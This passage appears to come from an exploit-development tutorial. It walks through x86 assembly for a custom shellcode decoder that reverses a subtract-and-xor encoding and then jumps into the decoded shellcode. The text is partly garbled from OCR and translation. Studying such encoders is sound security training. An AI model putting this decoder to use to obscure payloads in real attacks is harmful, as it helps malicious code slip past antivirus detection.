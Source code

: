```\x04 | ((\x01 ^ \x02) + \x04) | \x02 + \x04  => \x04\x07\x06```

```

Here below the decoder:


We get back the address pointing to the shellcode then we save this address in the stack. We paste this address in the edi register so to be able use the two offsets.
We define too the value of the shellcode via ecx register.


```c
	pop esi                 ; adresse of shellcode
	push esi                ; save the address on the stack
	mov edi, esi            ; copy shellcode address on edi
	xor ecx,ecx
	mul ecx	                ; eax, edx, ecx = 0
	
	mov cl, 0x17            ; set the length of the shellcode
```

The main part of the decoder is described below:
The registers are reset at 0, al will contain the first byte of the shellcode and we check if we are having the value 0xFF. This marker means that the shellcode has an odd length and must be treated a different way. 

The rest of the algorithm is described in the first part of the document.

We use esi and edi as offset, edi for decoding et esi to write the decoded shellcode.
Once it is finished we leap to the final section which is an appeal towards the value on top of the pile, which is the esi push of the program start off.
The consequence is the execution of the decoded shellcode.

```c
_:	
	xor eax, eax						; set eax, ebx, ecx to 0 each turn during the loop
	xor ebx, ebx
	xor edx, edx

	mov byte al, [edi]					; set al with the first byte of the shellcode
	cmp al, 0xff						; al == 0xFF ? 
	jz impair						; if the shellcode len is odd we jump to label impair

	mov byte dl, [edi+1]					; set dl with the second byte of the shellcode
	sub dl, al						; we substract dl with al
	mov byte bl, [edi+2]					; set bl with the third byte of the shellcode
	sub bl, al						; we substract bl with al
	xor dl, bl						; xor dl and bl
	mov [esi], dl						; then we put dl and bl decoded
	mov [esi+1], bl


	inc esi							; because we use esi and edi as offset, we need to increment them
	inc esi
	inc edi
	inc edi
	inc edi

	loop _							; loop while ecx > 0
	jmp short final

    final:
	call [esp]
```
